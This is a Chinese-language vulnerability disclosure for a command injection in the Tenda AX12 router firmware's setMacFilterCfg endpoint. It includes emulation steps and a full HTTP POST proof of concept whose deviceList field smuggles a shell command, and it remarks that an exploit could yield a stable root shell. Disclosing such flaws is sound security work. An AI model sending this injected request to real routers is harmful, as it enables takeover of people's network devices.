






# Tenda AX12存在命令注入漏洞

### 写在前面

Tenda官网：https://www.tenda.com.cn/default.html

关于Tenda：https://www.tenda.com.cn/profile/contact.html

固件下载：https://www.tenda.com.cn/download/

### 影响版本



图中显示了最新版本

### 漏洞细节







程序通过deviclist参数获取到的内容传递给v3，之后将v3带入doyststem函数，没有进行命令的过滤，存在命令注入漏洞。

### 漏洞复现与POC

为了重现该漏洞，可以遵循以下步骤：

​	1.使用fat模拟固件V22.03.01.21_cn

​	2.使用以下POC攻击进行攻击

```
POST /goform/setMacFilterCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw

macFilterType=1&deviceList=1"echo 1234 > /tmp/4455 \"\
```



图为POC攻击效果图

最后，您可以编写exp，这可以实现获取根shell的非常稳定的效果

